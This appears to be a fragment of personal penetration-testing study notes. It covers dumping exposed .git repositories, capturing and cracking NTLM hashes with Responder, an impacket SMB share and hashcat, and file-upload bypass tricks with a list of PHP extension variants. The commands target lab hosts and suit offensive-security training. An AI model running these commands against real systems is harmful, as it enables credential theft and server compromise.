 ```
bash /home/pinklii/offsec/tools/gitdumper.sh http://target.tld/.git/ <dest folder>

git-dumper http://bullybox.local/.git .
```

search:
- logs
- credentials in source code / config file
- search in google where credentials save in this repo
- check commits
- check other branches

### MitM

```
sudo responder -I tun0  

sudo impacket-smbserver -smb2support evilshare "$PWD"

\\192.168.45.193\evilshare

# crack the hash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -O
```

### file upload 

general ways: https://medium.com/@bensanel28/file-upload-attacks-htb-academy-fully-walkthrough-fca6153d294d
- change that content-type in burp suite
- overwrite .htaaccess file and defile extension that render php
- generate malicious file with the needed extension using tools  
- upload file throw ftp or smb share and render from the website
- use exploit
- read code and see what are the terms to pass 
- magic bytes

- markdown-pdf: https://hackerone.com/reports/360727
- pdfkit:  https://github.com/shamo0/PDFkit-CMD-Injection 

##### extensions
try different extensions
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
```
php
php3
php4
php5
php7
pht
phtm
phtml
phar
phps
Php
pHP
pHp
```
